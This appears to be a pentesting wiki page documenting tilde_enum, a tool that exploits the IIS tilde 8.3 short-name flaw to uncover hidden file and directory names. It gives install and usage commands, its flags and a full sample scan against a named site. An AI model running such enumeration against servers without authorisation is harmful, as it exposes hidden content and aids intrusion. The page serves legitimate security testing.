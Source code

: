 ```yaml
---
title : "tilde_enum"
# pre : ' '
description : "Exploits and expands the file names found from the (IIS) tilde enumeration vuln."
date : 2022-02-07T09:55:27+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'IIS']
---
```


## tilde_enum

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (<https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/>, <http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/>, <http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf>) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at <https://github.com/irsdl/iis-shortname-scanner/tree/master/> and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the <https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt> (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

### Installation

```plain
git clone https://github.com/WebBreacher/tilde_enum
```

Find wordlists to use at [this GitHub repo](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes). Or download some handy ones below.

{{%attachments title="Wordlists" fa_icon_class="far fa-file" pattern=".*(txt)"/%}}

### Usage

```plain
tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]
```

### Flags

```plain
Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
```

### Examples

```plain
$  ./tilde_enum.py -u http://offsec.nl -w raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://offsec.nl/mhxWjUz25u.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://offsec.nl
[-] URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://offsec.nl/parameter.xml
[*]  Found one! (Size 1754) http://offsec.nl/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://offsec.nl/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://offsec.nl/documentation/
[*]  Found one! (Size 1433) http://offsec.nl/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://offsec.nl/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://offsec.nl/documentation/advertising.html
[*]  Found one! (Size 1433) http://offsec.nl/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://offsec.nl/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://offsec.nl/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://offsec.nl/_vti_inf.html  - Size 1754
[*]      http://offsec.nl/documentation/advertising.html  - Size 227
[*]      http://offsec.nl/documentation/default.aspx  - Size 1433
[*]      http://offsec.nl/javascript/321.xlsx  - Size 227
[*]      http://offsec.nl/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://offsec.nl/documentation/advert~1.htm
[*]      http://offsec.nl/documentation/defaul~1.asp
[*]      http://offsec.nl/765432~1.htm
[*]      http://offsec.nl/_vti_i~1.htm
[*]      http://offsec.nl/parame~1.xml
[*]      http://offsec.nl/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://offsec.nl/documentation/  - Size 1433
[*]      http://offsec.nl/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://offsec.nl/_vti_s~1/
[?]      http://offsec.nl/aspnet~1/
[?]      http://offsec.nl/copyof~1/
[?]      http://offsec.nl/docume~1/
[?]      http://offsec.nl/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://offsec.nl/aspnet_client/  - Size 218
```

### URL list

* [Github.com - tilde_enum](https://github.com/WebBreacher/tilde_enum)
* [Github.com - Wordlists to use](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes)
